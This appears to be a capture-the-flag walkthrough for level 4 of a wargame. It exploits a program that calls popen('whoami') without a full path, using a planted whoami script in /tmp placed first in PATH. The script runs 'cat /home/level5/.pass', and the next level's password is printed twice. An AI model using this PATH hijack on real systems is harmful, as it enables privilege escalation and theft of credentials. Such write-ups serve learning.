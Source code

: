 ## Level 4:

The code for the program is simple:

```c
 1 //writen by bla
 2 #include <stdlib.h>
 3 #include <stdio.h>
 4 
 5 int main() {
 6         char username[1024];
 7         FILE* f = popen("whoami","r");
 8         fgets(username, sizeof(username), f);
 9         printf("Welcome %s", username);
10 
11         return 0;
12 }
13
```

We can see it opening a process and calling a command **whoami**. This is normally safe but we can change what **whoami** stands for by changing the path it looks for the command. We can create a file in /tmp directory.

```console
level4@io:/tmp$ mkdir A
level4@io:/tmp$ cd A
level4@io:/tmp/A$ export PATH=/tmp/A:$PATH
level4@io:/tmp/A$ vim whoami
```

First I created a directory (optional), added the directory to the **PATH** and created a whoami file containing the script I want to be run as **level5** :

```shellscript
<!-- whoami -->
1 #!/bin/sh
2 
3 cat /home/level5/.pass
```

After saving it, just execute the level04 program.

```console
level4@io:/tmp/A$ chmod ou+x whoami
level4@io:/tmp/A$ ../../levels/level04
Welcome DNLM3Vu0mZfX0pDd
level4@io:/tmp/A$ 
```


<!-- Level 5 password => DNLM3Vu0mZfX0pDd -->